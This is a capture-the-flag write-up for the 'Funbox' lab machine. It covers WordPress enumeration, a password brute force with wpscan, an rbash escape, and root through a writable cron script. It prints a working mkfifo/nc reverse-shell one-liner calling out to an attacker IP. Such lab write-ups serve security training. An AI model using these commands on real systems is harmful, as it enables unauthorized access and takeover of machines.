




## Funbox: Writeup

Nmap reveals there are four ports open:

```bash
PORT      STATE SERVICE REASON  VERSION
21/tcp    open  ftp     syn-ack ProFTPD
22/tcp    open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d2f6531b5a497d748d44f546e39329d3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC9pqd6Bl4WZB8bCuMwfyOXcXOCb82sjom4rqj7fyWNTCj9SUzNojNe5Nw1fChZFKz0t9dDG2OGvtRbvqlBEBpBVyboDVybtKpuxOPcrQKftZ6LExE9s5/4jIZQvvqA46E0FB8CXxExoStnaHUh0zkz4tA0TVlS/zDIwDBSPel0iOQl3GTU9rHZwgMZrG361o+YqOAPgXcYyXIYAha3JK+YOX/01q/GblRvFiSsxIRGp0CIwLiVrrkqG5QrlErIYxnPqJK735Eua/OKGd84Eih6KNE9DTyYvjXRBFkz4IE18Pnt9w9LcBmczJDuItYDpoc1DkCwV0V8DHd/I79nN5Y/ITP/4HWZ9roefp6/O0XzAvx0QjglifcSkuPc1BG1LbbCS3Tkqyg0xTn2ZzzM2Qu8O7GRZ+tgkaWPWKP40yWR8RwIwzdxiTFUB8vZqIBg+BZZtu3N0qX6DWr7wRfhSZKe1PnJ4Iy30y2TdBy/xwkz5aSdboAZETBz802Ei6l5qJ8=
|   256 a6836f1b9cdab4418c29f4ef334b20e0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFJl7i5UvfUCImfiDYZe4lKe+FvioLlSgiTn2DrhFz/0Ke1siWhlbnKj4JlPMwdNgEO9eNtDovPJgmT9wVbIL9Y=
|   256 a65b800350199166b6c398b8c44f5cbd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIASMi+k+1JBydpZXZFXkhrYUUEgqr1D5zGAf+pSVxF4Q
80/tcp    open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://funbox.fritz.box/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/secret/
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx? syn-ack
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.93%I=7%D=3/3%Time=64024DBF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOpt
SF:ions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVersi
SF:onBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2B
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fIn
SF:valid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%
SF:r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\
SF:x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9,
SF:"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY00
SF:0")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOptions,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x08\x0
SF:5\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,9,"\
SF:x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05\x1a
SF:\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000"
SF:)%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(
SF:ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
```

Can't login to ftp without creds:

```bash
$ ftp 192.168.122.77
Connected to 192.168.122.77.
220 ProFTPD Server (Debian) [192.168.122.77]
Name (192.168.122.77:lemmy): anonymous
331 Password required for anonymous
Password:
530 Login incorrect.
ftp: Login failed
ftp>
```

Visiting the website, I'm prompted I can't yet resolve `funbox.fritz.box`. So add `funbox.fritz.box` to `/etc/hosts`.

Checking out the website, it appears to be a wordpress site.

Fuzz the web root:

```bash
$ gobuster dir -u http://funbox.fritz.box/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://funbox.fritz.box/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/03/03 14:45:13 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 281]
/.hta                 (Status: 403) [Size: 281]
/.htpasswd            (Status: 403) [Size: 281]
/index.php            (Status: 301) [Size: 0] [--> http://funbox.fritz.box/]
/robots.txt           (Status: 200) [Size: 19]
/secret               (Status: 301) [Size: 321] [--> http://funbox.fritz.box/secret/]
/server-status        (Status: 403) [Size: 281]
/wp-admin             (Status: 301) [Size: 323] [--> http://funbox.fritz.box/wp-admin/]
/wp-content           (Status: 301) [Size: 325] [--> http://funbox.fritz.box/wp-content/]
/wp-includes          (Status: 301) [Size: 326] [--> http://funbox.fritz.box/wp-includes/]
/xmlrpc.php           (Status: 405) [Size: 42]
Progress: 4614 / 4615 (99.98%)===============================================================
```

Indeed, it is wordpress. Scan it with wpscan, and brute force passwords with a default-passwords list:

```bash
$ wpscan --url http://funbox.fritz.box/ -e u,ap --passwords /usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://funbox.fritz.box/ [192.168.122.77]
[+] Started: Fri Mar  3 14:50:13 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://funbox.fritz.box/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://funbox.fritz.box/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://funbox.fritz.box/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://funbox.fritz.box/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://funbox.fritz.box/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://funbox.fritz.box/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://funbox.fritz.box/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://funbox.fritz.box/wp-content/themes/twentyseventeen/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://funbox.fritz.box/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 3.1
 | Style URL: http://funbox.fritz.box/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://funbox.fritz.box/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===============================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://funbox.fritz.box/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] joe
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - joe / 12345
Trying admin / opnsense Time: 00:00:25 <========================================                                        > (1314 / 2623) 50.09%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: joe, Password: 12345

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Mar  3 14:50:42 2023
[+] Requests Done: 1329
[+] Cached Requests: 51
[+] Data Sent: 689.99 KB
[+] Data Received: 6.645 MB
[+] Memory used: 258.988 MB
[+] Elapsed time: 00:00:29
```

I can log in as joe on wp-admin, but he has no special Wordpress privileges.
I test these creds out on ftp and ssh. They work:

```bash
$ ftp 192.168.122.77
Connected to 192.168.122.77.
220 ProFTPD Server (Debian) [192.168.122.77]
Name (192.168.122.77:lemmy): joe
331 Password required for joe
Password:
230 User joe logged in
Remote system type is UNIX.
Using binary mode to transfer files.
```


I can read local.txt and an email that indicates that a backup script is running:

```bash
ftp> ls
229 Entering Extended Passive Mode (|||44212|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 root     root           33 Mar  3 19:42 local.txt
-rw-------   1 joe      joe           998 Jul 18  2020 mbox
226 Transfer complete
ftp> get local.txt -
remote: local.txt
229 Entering Extended Passive Mode (|||44948|)
150 Opening BINARY mode data connection for local.txt (33 bytes)
71e599c723f28908e9d8b437a39ba7f7
226 Transfer complete
33 bytes received in 00:00 (0.77 KiB/s)
ftp> get local.txt
local: local.txt remote: local.txt
229 Entering Extended Passive Mode (|||61361|)
150 Opening BINARY mode data connection for local.txt (33 bytes)
    33      537.10 KiB/s
226 Transfer complete
33 bytes received in 00:00 (0.79 KiB/s)
ftp> get mbox
local: mbox remote: mbox
229 Entering Extended Passive Mode (|||39810|)
150 Opening BINARY mode data connection for mbox (998 bytes)
   998      653.66 KiB/s
226 Transfer complete
998 bytes received in 00:00 (22.69 KiB/s)
ftp> put test
local: test remote: test
229 Entering Extended Passive Mode (|||45803|)
150 Opening BINARY mode data connection for test
100% |*********************************|     5       93.89 KiB/s    00:00 ETA
226 Transfer complete
5 bytes sent in 00:00 (0.13 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||34502|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 root     root           33 Mar  3 19:42 local.txt
-rw-------   1 joe      joe           998 Jul 18  2020 mbox
-rw-r--r--   1 joe      joe             5 Mar  3 19:56 test
226 Transfer complete

$ cat mbox
From root@funbox  Fri Jun 19 13:12:38 2020
Return-Path: <root@funbox>
X-Original-To: joe@funbox
Delivered-To: joe@funbox
Received: by funbox.fritz.box (Postfix, from userid 0)
        id 2D257446B0; Fri, 19 Jun 2020 13:12:38 +0000 (UTC)
Subject: Backups
To: <joe@funbox>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20200619131238.2D257446B0@funbox.fritz.box>
Date: Fri, 19 Jun 2020 13:12:38 +0000 (UTC)
From: root <root@funbox>

Hi Joe, please tell funny the backupscript is done.

From root@funbox  Fri Jun 19 13:15:21 2020
Return-Path: <root@funbox>
X-Original-To: joe@funbox
Delivered-To: joe@funbox
Received: by funbox.fritz.box (Postfix, from userid 0)
        id 8E2D4446B0; Fri, 19 Jun 2020 13:15:21 +0000 (UTC)
Subject: Backups
To: <joe@funbox>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20200619131521.8E2D4446B0@funbox.fritz.box>
Date: Fri, 19 Jun 2020 13:15:21 +0000 (UTC)
From: root <root@funbox>

Joe, WTF!?!?!?!?!?! Change your password right now! 12345 is an recommendation to fire you.
```

ssh as joe:

```bash
$ ssh joe@192.168.122.77
The authenticity of host '192.168.122.77 (192.168.122.77)' can't be established.
ED25519 key fingerprint is SHA256:FvY+RbxA4ltj5Ops2NPpM0dfY4eqKpDCbH/IqRkod2Y.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.122.77' (ED25519) to the list of known hosts.
joe@192.168.122.77's password:
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 03 Mar 2023 07:57:57 PM UTC

  System load:  0.0               Processes:               157
  Usage of /:   57.1% of 9.78GB   Users logged in:         0
  Memory usage: 63%               IPv4 address for ens160: 192.168.122.77
  Swap usage:   0%


32 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

joe@funbox:~$ whoami
joe
joe@funbox:~$ id
uid=1001(joe) gid=1001(joe) groups=1001(joe)
joe@funbox:~$ hostname
funbox
joe@funbox:~$ hostname -I
192.168.122.77
joe@funbox:~$ ls
local.txt  mbox  test
joe@funbox:~$ cat local.txt
71e599c723f28908e9d8b437a39ba7f7
```

If I try to use `cd`, it indicates I'm in a restricted shell:

```bash
joe@funbox:~$ cd /tmp
-rbash: cd: restricted
joe@funbox:~$ logout
-rbash: /usr/bin/clear_console: restricted: cannot specify `/' in command names
Connection to 192.168.122.77 closed.
```

I can get past this by adding `-t 'bash --noprofile'`:

```bash
┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/funbox]
└─$ ssh joe@192.168.122.77 -t 'bash --noprofile'
joe@192.168.122.77's password:
joe@funbox:~$ cd ..
```


Running pspy reveals the cronjob in user funny's directory:

```bash
2023/03/03 20:08:01 CMD: UID=1000 PID=32589  | /bin/bash /home/funny/.backup.sh
2023/03/03 20:08:01 CMD: UID=1000 PID=32588  | /bin/sh -c /home/funny/.backup.sh
```



Let's check it out:

```bash
joe@funbox:/home$ cd funny
joe@funbox:/home/funny$ ls -la
total 47592
drwxr-xr-x 3 funny funny     4096 Aug 21  2020 .
drwxr-xr-x 4 root  root      4096 Jun 19  2020 ..
-rwxrwxrwx 1 funny funny       55 Aug 21  2020 .backup.sh
lrwxrwxrwx 1 funny funny        9 Aug 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 funny funny      220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 funny funny     3771 Feb 25  2020 .bashrc
drwx------ 2 funny funny     4096 Jun 19  2020 .cache
-rw-rw-r-- 1 funny funny 48701440 Mar  3 20:08 html.tar
-rw-r--r-- 1 funny funny      807 Feb 25  2020 .profile
-rw-rw-r-- 1 funny funny      162 Jun 19  2020 .reminder.sh
joe@funbox:/home/funny$ cat .reminder.sh
#!/bin/bash
echo "Hi Joe, the hidden backup.sh backups the entire webspace on and on. Ted, the new admin, test it in a long run." | mail -s"Reminder" joe@funbox

joe@funbox:/home/funny$ cat .backup.sh
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
```

I have write privileges on this file. I add a reverse shell to the script and catch the reverse shell to become root:

```bash
joe@funbox:/home/funny$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.122 443 >/tmp/f' >> .backup.sh


#on attacker
$ rlwrap nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.122.77.
Ncat: Connection from 192.168.122.77:36644.
sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls -la
total 44
drwx------  6 root root 4096 Mar  3 19:42 .
drwxr-xr-x 20 root root 4096 Aug 14  2020 ..
lrwxrwxrwx  1 root root    9 Aug 21  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Jun 19  2020 .cache
drwx------  3 root root 4096 Jun 19  2020 .config
-rw-r--r--  1 root root   43 Aug 21  2020 flag.txt
-rw-------  1 root root  779 Jun 19  2020 mbox
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root joe    33 Mar  3 19:42 proof.txt
drwxr-xr-x  3 root root 4096 Jun 19  2020 snap
drwx------  2 root root 4096 Jun 19  2020 .ssh
# cat proof.txt
b1151fff374cfac11765af7b1b4eac7a
```

